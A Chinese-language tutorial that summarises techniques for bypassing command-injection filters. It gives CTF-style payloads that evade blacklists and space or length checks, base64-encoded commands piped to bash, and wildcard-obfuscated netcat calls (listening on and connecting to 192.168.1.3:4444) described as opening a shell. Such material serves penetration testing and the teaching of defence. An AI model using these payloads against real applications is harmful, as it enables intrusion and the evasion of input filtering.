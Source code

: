 # 命令注入绕过方式总结

## 前言

命令注入是web中常见的漏洞之一，由于web应用程序未对用户提交的数据做严格的过滤，导致用户输入可以直接被linux或windows系统当成命令执行，一般都会造成严重的危害。

## 常用符号

#### 分号（;）

多条语句顺序执行时的分割符号。

```
cmd1;cmd2
Copy
```

#### 管道符（|）

cmd1命令的输出，作为下一条命令cmd2的参数。

```
cmd1|cmd2
Copy
```

#### and（&&）

与命令，cmd1成功则执行cmd2，cmd1失败则不执行cmd2

```
cmd1 && cmd2
Copy
```

#### or（||）

或命令，cmd1失败则执行cmd2，cmd1成功则不执行cmd2

```
cmd1 || cmd2
Copy
```

#### 反引号（``）和$()

反引号和$()都可用来表示命令，被这两种方式包含的字符串都会被当做命令首先执行。

```
echo "result : `whoami`"
echo "result : $(whoami)"
Copy
```

## 绕过方式总结

### 空格绕过

在过滤了空格的系统中，以cat flag.txt为例，系统不允许我们输入空格或输入后被过滤。

#### ${IFS}

可使用${IFS}代替空格。

```
cat${IFS}flag.txt
cat$IFS$1flag.txt
cat${IFS}$1flag.txt
Copy
```

#### 重定向符绕过(<>)

```
cat<>flag.txt
cat<flag.txt
Copy
```

#### %09(需要php环境)

php环境下web输入%09等效于空格

```
cat%09flag.txt
Copy
```

### 黑名单绕过

#### 拼接

使用shell变量拼接被黑名单限制的关键词

```
a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;
Copy
```

#### base64

使用反引号包含base64解码后的命令

```
`echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d`
Copy
```

将base64解码后的命令通过管道符传递给bash

```
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d | bash
Copy
```

#### 单引号，双引号

```
c""at fl''ag.tx""t
Copy
```

#### 反斜杠

```
c\at fl\a\g.tx\t
Copy
```

#### $1

```
ca$1t fl$1ag.t$1xt
Copy
```

### 读文件绕过

```
(1)more:一页一页的显示档案内容
(2)less:与 more 类似，但是比 more 更好的是，他可以[pg dn][pg up]翻页
(3)head:查看头几行
(4)tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
(5)tail:查看尾几行
(6)nl：显示的时候，顺便输出行号
(7)od:以二进制的方式读取档案内容
(8)vi:一种编辑器，这个也可以查看
(9)vim:一种编辑器，这个也可以查看
(10)sort:可以查看
(11)uniq:可以查看
(12)file -f:报错出具体内容
Copy
```

### 通配符绕过

/???会去寻找 / 目录下的三个字符长度的文件，正常情况下会寻找到/bin，然后/?[a][t]会优先匹配到/bin/cat,就成功调用了cat命令，然后后面可以使用正常的通配符匹配所需读的文件，如flag.txt文件名长度为8，使用8个?’’，此命令就会读取所有长度为8的文件。

```
/???/?[a][t] ?''?''?''?''?''?''?''?''
Copy
```

同理，我们也可以匹配/bin下的其他命令，如more，less，vi，tail等命令来查看文件，或者执行其他命令。

```
/???/[m][o]?[e] ?''?''?''?''?''?''?''?''
Copy
/???/[t]?[i][l] ?''?''?''?''?''?''?''?''
Copy
```

甚至开启一个shell

```
/???/[n]?[t]??[t] -lvp 4444
Copy
/???/[n]?[t]??[t] 192.168.1.3 4444
Copy
```

### 命令嵌套

```
echo "result:`whoami`"
Copy
echo "result:$(uname -a)"
Copy
```

### 长度绕过

#### 使用>>绕过长度限制

使用>>每次添加一部分命令到文件中

```
echo -n "cmd1" > r;
echo -n "cmd2" >> r;
echo -n "cmd3" >> r;
echo "cmd4" >> r;
Copy
```

然后使用cat r | bash执行命令

#### 使用换行执行和ls -t绕过长度限制

linux中，文件中的命令如果需要换行书写，需要在前一行末尾增加\，如文件a中有

```
ca\
t flag.t\
xt
Copy
```

使用sh a即可执行命令cat flag.txt

ls -t可根据时间创建顺序逆序输出文件名

> a可以创建一个名为a的文件

按照这个思路，可以使用

```
> "ag"
> "fl\\"
> "t \\"
> "ca\\"
Copy
```

然后使用ls -t > s

s中文件内容就是

```
s
ca\
t \
fl\
ag\
其他的无关内容
Copy
```

之后使用sh s，即可执行cat flag